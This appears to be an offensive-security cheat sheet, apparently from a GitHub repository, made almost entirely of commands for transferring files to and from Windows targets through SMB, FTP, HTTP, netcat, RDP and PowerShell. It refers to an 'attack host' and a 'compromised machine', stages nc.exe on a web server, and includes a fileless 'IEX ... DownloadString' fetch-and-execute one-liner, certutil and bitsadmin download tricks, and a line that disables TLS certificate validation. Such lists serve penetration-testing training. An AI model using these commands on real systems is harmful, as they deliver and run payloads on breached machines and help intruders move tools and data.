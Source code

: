 ### **CONNECTING TO AN SMB SHARE USING POWERSHELL**

1.  Set Up an SMB Server with Credentials  
    `sudo impacket-smbserver hackfast $(pwd) -smb2support -user hackfast -password hackfast`
2.  Convert Password to Secure String  
    `$pass = convertto-securestring 'hackfast' -AsPlainText -Force`
3.  Create Credential Object  
    `$cred = New-Object System.Management.Automation.PSCredential('hackfast',$pass)`
4.  Map the Network Drive  
    `New-PSDrive -Name hackfast -PSProvider FileSystem -Credential $cred -Root \\[IP-ADDRESS]\hackfast`
5.  Navigate to the Mapped Drive  
    `cd hackfast:`

### **DOWNLOADING FILES VIA SMB (NO CREDENTIALS)**

1.  Set Up an SMB Server  
    `sudo impacket-smbserver share -smb2support .`
2.  Download a File from SMB Server:  
    `copy \\[IP-ADRESS]\share\file.txt .`

### **DOWNLOADING FILES VIA SMB (WITH CREDENTIALS)**

3.  Configure SMB Server Using impacket-smbserver  
    `sudo impacket-smbserver hackfast $(pwd) -smb2support -user hackfast -password hackfast`
4.  Configure SMB Server Using smbserver.py  
    `smbserver.py hackfast . -smb2support -username hackfast -password hackfast`
5.  Map a Network Drive  
    `net use z: \\[IP-ADRESS]\hackfast /user:hackfast hackfast`
6.  Copy a File from the Mapped Drive  
    `copy z:\file.txt .`

### **DOWNLOADING FILES VIA FTP**

1.  Start an FTP Server:  
    `sudo python3 -m pyftpdlib --port 21`
2.  Downloading a File Using PowerShell  
    `(New-Object Net.WebClient).DownloadFile('ftp://[IP-ADDRESS]/file.txt', 'C:\Users\Public\file.txt')`
3.  Automate FTP Downloads with Command File:  
    
    ![](../../img/Windows-Environment/2.png)

### **SETTING UP AN HTTP SERVER AND DOWNLOADING FILES USING PYTHON 2**

1.  Start a HTTP server:  
    `python -m SimpleHTTPServer 8000`
    
2.  Download File Using PowerShell :  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
    
3.  Download File Using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
    
4.  Download File Using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\\Public\file.txt`
    

### **SETTING UP AN HTTP SERVER AND DOWNLOADING FILES USING PYTHON 3**

1.  Start a HTTP server:  
    `python3 -m http.server 8000`
    
2.  Download File Using PowerShell :  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
    
3.  Download File Using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
    
4.  Download File Using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\\Public\file.txt`
    

### **SETTING UP HTTP SERVER AND FILE DOWNLOAD USING PHP**

1.  Start a HTTP server:  
    `php -S 0.0.0.0:8000`
    
2.  Download File Using PowerShell :  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
    
3.  Download File Using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
    
4.  Download File Using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\Public\file.txt`
    

### **SETTING UP HTTP SERVER AND FILE DOWNLOAD USING RUBY**

1.  Start a HTTP Server:  
    `ruby -run -e httpd . -p 8000`
    
2.  Download File Using PowerShell :  
    `powershell iwr -uri http://[IP-ADDRESS]:8000/file.txt -outfile file.txt`
    
3.  Download File Using certutil  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/file.txt file.txt`
    
4.  Download File Using bitsadmin  
    `bitsadmin /transfer debjob /download /priority normal http://[IP-ADDRESS]:8000/file.txt C:\Users\\Public\file.txt`
    

### **SETTING UP AN APACHE SERVER AND FILE DOWNLOAD**

1.  Place File into the Apache Web Directory:  
    `cp nc.exe /var/www/html`
2.  Start the Apache Server:  
    `sudo systemctl start apache2`
3.  Downloading a File via Web Browser or PowerShell  
    `Invoke-WebRequest -Uri http://[IP-ADDRESS]/file.txt -OutFile file.txt`

### **ENCODING AND DECODING FILE WITH BASE64**

1.  Generate MD5 checksum:  
    `md5sum file.txt`
2.  Encoding File Content to Base64  
    `cat file.txt | base64 -w 0; echo`
3.  Decoding Base64 Content on Windows  
    `[IO.File]::WriteAllBytes("C:\Temp\file.txt", [Convert]::FromBase64String("[BASE64-STRING]"))`
4.  Verify the MD5 checksum of the decoded file:  
    `Get-FileHash C:\Temp\file.txt -Algorithm MD5`

### **DOWNLOADING FILES FROM A REMOTE SESSION**

1.  Create a PowerShell Remoting session:  
    `$Session = New-PSSession -ComputerName DATABASE01`
2.  Copy the file from the remote session to your local machine:  
    `Copy-Item -Path "C:\Users\Administrator\Desktop\file.txt" -Destination C:\ -FromSession $Session`

### **FILE TRANSFERS WITH NETCAT AND NCAT**

1.  Downloading a File (Receiving)
    - Using Netcat On the Compromised Machine (Listening):  
        `nc -l -p 8000 > received_file.exe`
2.  On the Attack Host (Sending):
    - Using Netcat  
        `nc -q 0 [IP_ADRESS] 8000 < file.exe`
    - Using Ncat  
        `ncat --send-only [IP_ADRESS] 8000 < file.exe`

### **DOWNLOADING FILES VIA RDP (LINUX TO WINDOWS)**

1.  Using rdesktop for File Transfer  
    `rdesktop [IP-ADRESS] -d [DOMAIN] -u [USERNAME] -p '[PASSWORD]' -r disk:linux='/home/user/rdesktop/files'`
2.  Using xfreerdp for File Transfer  
    `xfreerdp /v:[IP-ADRESS] /d:[DOMAIN] /u:[USERNAME] /p:'[PASSWORD]' /drive:[NAME],[PATH]`
3.  Accessing Mounted Directory in RDP Session  
    Connect to `\\tsclient\` within the RDP session to transfer files to and from the mounted directory.

### **POWERSHELL WEB DOWNLOADS**

1.  Downloading Files Using DownloadFile Method  
    `(New-Object Net.WebClient).DownloadFile('http://[IP-ADRESS]:8000/file.ps1','C:\Temp\file.ps1')`
    
2.  Using DownloadFileAsync for Non-Blocking Downloads  
    `(New-Object Net.WebClient).DownloadFileAsync('http://[IP-ADRESS]:8000/file.ps1', 'C:\Temp\file.ps1')`
    
3.  Executing Fileless Downloads Using DownloadString  
    `IEX (New-Object Net.WebClient).DownloadString('http://[IP-ADRESS]:8000/file.ps1')`
    
4.  Downloading File Using Invoke-WebRequest  
    `Invoke-WebRequest http://[IP-ADRESS]:8000/file.ps1 -OutFile C:\Temp\file.ps1`
    
5.  Bypassing Internet Explorer Configuration  
    `Invoke-WebRequest http://[IP-ADRESS]:8000/file.ps1 -UseBasicParsing`
    
6.  Bypassing SSL/TLS Secure Channel Issues:  
    `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`